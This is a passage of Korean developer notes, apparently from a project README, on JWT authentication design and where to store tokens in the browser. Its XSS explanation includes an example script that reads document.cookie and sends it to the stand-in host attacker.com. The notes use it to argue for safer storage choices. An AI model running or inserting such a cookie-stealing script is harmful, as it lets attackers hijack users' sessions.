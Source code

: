     - DB 조회 최소화  
        - 극단적으로 사용자 고유키 외에 인증에 필요한 다양한 정보  
          (이름, 닉네임, 생년월일) 등을 JWT에 저장하면  
          DB 조회 수를 줄일 수 있다.  
        - 다만 많은 정보를 저장할수록 JWT 길이가 길어져서  
          인증이 필요한 요청을 할때마다 주고 받는 데이터 양이 증가한다.  
        - JWT payload는 JWT 토큰 탈취 시에 그대로 노출되기 때문에  
          생년월일 등의 민감정보는 저장하지 않는 것이 좋다.  
- 그래서 어떤 방법을 선택?  
    - 현재 팀은 JWT 인증 방식 경험이 더 많으므로  
      JWT 인증 방식 선택  
    - JWT payload에는 사용자 고유키만 포함  

## JWT를 어디에 저장할까?
- 웹에서 인증정보를 저장하는 것에 어려움  
    - 웹 브라우저에서 javascript로 접근 가능한 저장소는 XSS 공격을 받을 수 있다.  
    - XSS(Cross-Site-Scripting)  
        - 악의적인 스크립트 코드를 다른 사용자의 브라우저에서 실행시키는 공격  
        - 일반적인 브라우저에서는 동일 출처 정잭(Same origin policy)를   
          갖기 때문에 이메일 등을 이용한 우회적인 방법으로는   
          XSS 공격을 실행시키기 어렵다.  
        - 다만 사이트 내에 사용자가 입력할 수 있는 정보가 있고  
          script 예외처리가 제대로 처리되지 않은 경우에는  
          XSS 공격을 실행시킬 수 있다.  
        - XSS 공격의 핵심은 javascript로 접근 가능한   
          쿠키나 로컬스토리지에 담긴 인증 정보를   
          공격자가 악의적 스크립트를 삽입하여 탈취하는 것이다.  
    - XSS 예시  
        - 시나리오  
            - 공격자는 이메일로 사용의 helloworld.com 인증정보를   
              탈취하고자 한다.  
            - helloworld.com은 인증정보를 httpOnly = false로 쿠키에 저장한다.  
            - 사용자는 구형 브라우저로 사용 중이라 samesite = none이 기본값이다.  
            - 이메일 제공자는 어떠한 스크립트 방어 정책도 제공하지 않는다.  
            - 사용자는 helloworld.com에 최근 로그인한 상태라 브라우저에서  
              인증정보를 가지고 있다.  
            - 공격자 사이트로 해당 쿠기가 담겨 전송된다.  
        - 이메일 악성 스크립트 예시  
          ```html  
          <script>  
          	fetch('http://attacker.com/steal-cookies', {  
          		method: 'POST',  
          		headers: {  
          			'Content-Type': 'application/json'  
          		},  
          		body: JSON.stringify({  
          			cookies: document.cookie //사용자의 쿠키 정보 추출  
          		})  
          	})  
          	.then(response => console.log('쿠키 전송 완료'))  
          	.catch(error => console.error('에러 발생', error));  
          </script>  
          ```  
- 웹 브라우저에서 인증 정보를 저장할 수 있는 장소  
    - 로컬 스토리지  
        - Javascript로 로컬 스토리지 조회가 가능하기 때문에 XSS 공격에 취약하다.  
    - 쿠키(httpOnly = false)  
        -  Javascript로 조회가 쿠키(httpOnly = false )가능하기 때문에   
           XSS 공격에 취약하다.  
    - 메모리 저장소  
        - Redux, Recoil, Zustand와 같이 전역 state 저장소를 사용할 수도 있다.  
        - XSS로 메모리 영역 변수 조회를 하기는 어렵다.  
        - 하지만 새로 고침 시 초기화 되므로 계속 사용하기 어렵다.  